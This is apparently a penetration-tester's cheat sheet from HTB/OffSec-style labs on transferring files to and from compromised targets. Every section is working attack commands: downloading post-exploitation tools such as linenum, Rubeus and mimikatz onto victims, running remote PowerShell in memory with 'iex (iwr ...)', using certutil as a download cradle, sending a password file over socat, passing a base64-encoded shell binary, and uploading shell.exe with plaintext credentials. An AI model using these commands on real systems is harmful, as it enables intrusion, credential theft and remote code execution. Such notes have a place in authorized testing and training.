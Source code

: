 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
curl -T '/home/kali/Documents/pg/Hutch/shell.exe' 'http://192.168.136.122/' -u fmcsorley:CrabSharkJellyfish192
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```powershell
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
iwr http://192.168.45.5/rubeus.exe -outfile rubeus.exe
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share .

# From victim
\\10.10.10.10\share\mimikatz.exe 

copy \\10.10.10.10\share\mimikatz.exe 
```
